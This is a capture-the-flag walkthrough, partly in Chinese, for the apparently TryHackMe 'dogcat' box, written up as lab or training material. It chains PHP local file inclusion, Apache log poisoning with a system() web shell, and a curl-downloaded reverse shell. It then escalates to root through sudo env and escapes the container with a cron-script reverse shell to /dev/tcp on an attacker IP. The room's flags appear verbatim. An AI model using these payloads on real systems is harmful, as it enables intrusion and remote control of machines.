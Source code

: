 DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.  
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

Second, confirm where apache log file
![image](https://user-images.githubusercontent.com/67756786/195555607-9db42cbd-a824-4ea2-8e19-c1785156e75b.png)

Finaly, try to got apache access.log
```
http://10.10.162.32//?view=dog/../../../../var/log/apache2/access&ext=.log
```
Work, nice!
![image](https://user-images.githubusercontent.com/67756786/195556701-5a70e822-e099-4857-9d17-e43fd7adffd4.png)

Now we try access.log can injection or not.
```
echo -e "GET <?php phpinfo(); ?>"| nc 10.10.162.32 80
```
Work
![image](https://user-images.githubusercontent.com/67756786/195557135-6a978839-dad3-4fdd-a902-765dc8206e2f.png)

Now I want put web shell into that.
```
echo -e "GET <?php if(isset($_GET['cmd']))  {  system($_GET['cmd']);  }?>" | nc 10.10.162.32 80
```
But I got this error message, and then I reboot target machine.
![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)

And then I think that I just want to print result of excution, after that I change my RCE code.

```
 echo -e "<?php system(\$_GET[B]); ?>" | nc 10.10.142.129 80
```

Success!
![image](https://user-images.githubusercontent.com/67756786/195745918-9ef79f1d-3981-4432-8764-c8382e9c0e56.png)

Now we need to uplode php reverse shell and excute it.  
First, uploade php revere shell, we can use python http server and use curl dowload reverse shell.
Second, excute this reverse shell.
php reverse shell(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
If you reverse shell is ready, we can open python http server
![image](https://user-images.githubusercontent.com/67756786/195754923-4cc04d9b-d523-4f31-902c-e1e562060afb.png)

After, we dowload and excute that.  
Dowload
```
http://10.10.142.129/?ext=&view=dog/../../../../var/log/apache2/access.log&B=curl -o /var/www/html/s.php%20http://10.10.180.17/shell.php
```
Excute
```
http://10.10.142.129/?view=dog/../s
```
But, got a error message, seem to be not use this method.

![image](https://user-images.githubusercontent.com/67756786/195755156-0699cb87-02fe-46af-a4b0-3a09d01d1eb2.png)

One day ago, I conscious my dowload URL is error, default port of python http server is 8000.  
Later, I do it again, same method, and work!

revereshell
![image](https://user-images.githubusercontent.com/67756786/195756571-aa5bc548-2fcc-4a9c-a1e6-e935aef44fcd.png)

Now, we need to got four flag! I will use `find` to search flag

```
find * -name flag*
```

![image](https://user-images.githubusercontent.com/67756786/195767056-726c156b-0903-4424-9604-1396ff6c6123.png)

and open that.

![image](https://user-images.githubusercontent.com/67756786/195767322-991d0302-a03d-4ac1-b2b5-c240764b1bea.png)


- [x] FLAG2

![image](https://user-images.githubusercontent.com/67756786/195767344-8ca50948-1b04-47c2-bf49-1986efa95617.png)

- [x] FLAG3

Usually, one of flag will be on the root dictory,and then we confirm www_data to can be root or not.
```
sudo -l
```
![image](https://user-images.githubusercontent.com/67756786/195769614-9a3adb49-accb-4f09-8af0-1507d7717aaa.png)

GTFOBins have privilege escalation method by env

![image](https://user-images.githubusercontent.com/67756786/195769742-863b904a-d754-4b83-ba55-24c5c3f5ae07.png)

![image](https://user-images.githubusercontent.com/67756786/195769806-8fe8bd4c-866b-4219-944f-d3ddfd1b566e.png)

flag3 into /root dictory

![image](https://user-images.githubusercontent.com/67756786/195770951-3eaf770f-00a9-4264-a973-da4db5812396.png)


- [x] FLAG4

在/目錄底下，我發現隱藏目錄.dockerenv，所以目前應該是container環境
![image](https://user-images.githubusercontent.com/67756786/195786709-0f4a8036-b4a2-41a2-9ecd-619922b00f87.png)

接著在opt中發現bakcup目錄
![image](https://user-images.githubusercontent.com/67756786/195787001-f3465ed3-1557-4bfb-87b6-bd20aecaba10.png)

backup.sh內容為`tar cf /root/container/backup/backup.tar /root/container`

backup.tar解壓縮後有root/container/目錄，底下有Dockerfile、backup.sh、launch.sh
Dockerfile
```docker
FROM php:apache-buster

# Setup document root
RUN mkdir -p /var/www/html

# Make the document root a volume
VOLUME /var/www/html

# Add application
WORKDIR /var/www/html
COPY --chown=www-data src/ /var/www/html/

RUN rm /var/log/apache2/*.log

# Set up escalation
RUN chmod +s `which env`
RUN apt-get update && apt-get install sudo -y
RUN echo "www-data ALL = NOPASSWD: `which env`" >> /etc/sudoers

# Write flag
RUN echo "THM{D1ff3r3nt_3nv1ronments_874112}" > /root/flag3.txt
RUN chmod 400 /root/flag3.txt

RUN echo "THM{LF1_t0_RC3_aec3fb}" > /var/www/flag2_QMW7JvaY2LvK.txt

EXPOSE 80

# Configure a healthcheck to validate that everything is up&running
HEALTHCHECK --timeout=10s CMD curl --silent --fail http://127.0.0.1:80/
```
launch.sh
```
#!/bin/bash
docker run -d -p 80:80 -v /root/container/backup:/opt/backups --rm box
```
接著更改backup.sh
```
echo "echo "#!/bin/bash \n bash -i >& /dev/tcp/10.10.180.17/4242 0>&1" > backup.sh"
```
監聽4242 port後會發現取得shell，並且為root權限，查看flag4.txt
![image](https://user-images.githubusercontent.com/67756786/195788139-a9d0dad3-3a25-45a8-8eab-423e0686af69.png)

確認crontab
```
corntab -l
```
![image](https://user-images.githubusercontent.com/67756786/195788238-83b05236-ba54-4743-87e0-b6f9447a552f.png)
